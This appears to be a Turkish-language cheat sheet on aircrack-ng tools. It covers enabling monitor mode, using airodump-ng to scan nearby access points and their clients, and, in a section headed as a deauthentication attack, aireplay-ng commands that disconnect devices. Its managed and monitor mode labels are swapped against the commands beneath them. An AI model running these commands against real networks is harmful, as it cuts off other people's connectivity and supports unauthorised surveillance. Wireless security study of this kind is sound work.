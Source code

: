 - **İfconfig** : Mevcut internet bağlantıları ile ilgili detaylı bilgi verir.
- **İwconfig** : Mevcut Wİ-Fİ bağlantıları ile ilgili detaylı bilgi verir.
---
- **airmon-ng (start/stop) (interface)**
	- ***Managed Mode*** Wİ-Fİ adaptörünün varsayılan internete bağlanma modu. 
		- airmon-ng start wlan0
	- ***Monitor Mode*** ise Wİ-Fİ adaptörünün bilgi toplama modudur. 
		- airmon-ng stop wlan0mon 
---
- **airodump-ng (interface)**
	- Etraftaki modemler hakkında bilgi toplar.
	- ***BSSID*** : Modemin MAC adresi.
	- ***PWR*** : Modemin Wİ-Fİ adaptörüne uzaklığı.
	- ***CH*** : Modemin kullanıldığı kanal.
	- ***ENC*** : Modemim şifrelenme türü.
	- ***ESSID*** : Modem adı.
---
- **airodump-ng --channel ... -bssid ... -write ... (interface)**
	- örneğin *airodump-ng --channel 12 --bssid 40:30:20:10 --write txt wlan0mon*
	- Hedeflenen modem ile ilgili detaylı bilgi toplar.
	- ***BSSID*** : Modemin MAC adresi.
	- ***STATION*** : Modeme bağlı cihazların MAC adresi.
	- ***Frames*** : Cihazların internette harcadığı paket sayısı.
---
### DEAUTHENTICATION SALDIRISI
- **aireplay-ng --deauth (paket sayısı) -a (modem MAC) -c (cihaz MAC) (interface)**
	- *aireplay-ng --deauth 1000 -a 40:30:20:10 -c 10:20:30:40 wlan0mon*
- **aireplay-ng --deauth (paket sayısı) -a (modem MAC) (interface)**
	- *aireplay-ng --deauth 1000 -a 40:30:20:10 wlan0mon*